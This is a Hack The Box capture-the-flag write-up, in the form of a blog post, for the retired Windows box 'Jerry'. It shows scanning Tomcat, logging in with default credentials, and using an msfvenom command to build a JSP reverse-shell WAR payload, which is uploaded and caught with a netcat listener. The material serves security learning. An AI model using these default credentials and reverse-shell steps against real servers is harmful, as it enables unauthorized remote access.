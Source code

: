 ```yaml
---
layout: post
title: Hack The Box - Jerry
categories: hack-the-box
tags: [Windows, Web, RCE]
image: hackthebox/jerry/0.png
redirect_from: "/HackTheBox-Jerry/"
---
```


<hr>
#### Jerry has retired and this is my write-up about it...
<br>
#### Jerry was one of the easiest boxes on HTB. It was a beginner-box . 
#### It's a windows box and its ip is 10.10.10.95
![](/images/hackthebox/jerry/0.png)
<hr>
<br>
#### Starting with nmap to scan for tcp ports and services :
`nmap -sV -sT 10.10.10.95`
![](/images/hackthebox/jerry/1.jpg)
<hr>
<br>
#### We can see that the port 8080 is open and running http and the server is Apache Tomcat.
#### By visiting it in the browser we get the default tomcat configuration page.
![](/images/hackthebox/jerry/2.png)
<hr>
<br>
#### There's a manager app so let's try to access it .
![](/images/hackthebox/jerry/3.png)
<hr>
<br>
#### It asks for authentication and common passwords like those mentioned below didn't work:
*tomcat:tomcat* <br>
*admin:admin* <br>
*admin:password* <br>
*user:password* <br>
#### So by closing the login panel it causes an error because we are not authorized to view the manager page
#### But by looking at the error page :
![](/images/hackthebox/jerry/4.png)
<hr>
<br>
#### It shows these credentials :
*tomcat:s3cret*
#### This seems to be a part of the documentation and those credentials are dafault credentials.
#### Will they work ? yup !
![](/images/hackthebox/jerry/5.png)
![](/images/hackthebox/jerry/6.png)
<hr>
<br>
## Exploitation
#### Now we are logged in to the manager app and we can get a shell from here
<br>
#### We are on an apache tomcat server and apache tomcat uses WAR files.
#### To get a reverse shell we will use msfvenom to create the payload :
<br>
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`
![](/images/hackthebox/jerry/7.jpg)
<br>
#### Then we will upload our payload to the server.
![](/images/hackthebox/jerry/8.jpg)
![](/images/hackthebox/jerry/9.jpg)
<br>
#### Then we will listen to the port with netcat :
<br>
`nc -lvnp 4449`
<hr>
<br>
#### Now we got a reverse shell as admin so there's no need for previlege escalation.

![](/images/hackthebox/jerry/10.jpg)
<br>
<br>
![](/images/hackthebox/jerry/11.jpg)
<br>
<br>
![](/images/hackthebox/jerry/12.jpg)
<br>
<hr>
#### Another way to do this is to use this tool written by **mgeeky** [TomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) to automate the process of getting a shell
![](/images/hackthebox/jerry/13.jpg)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Next Hack The Box write-up : [Hack The Box - Hawk](/hack-the-box/hawk/)
<hr>

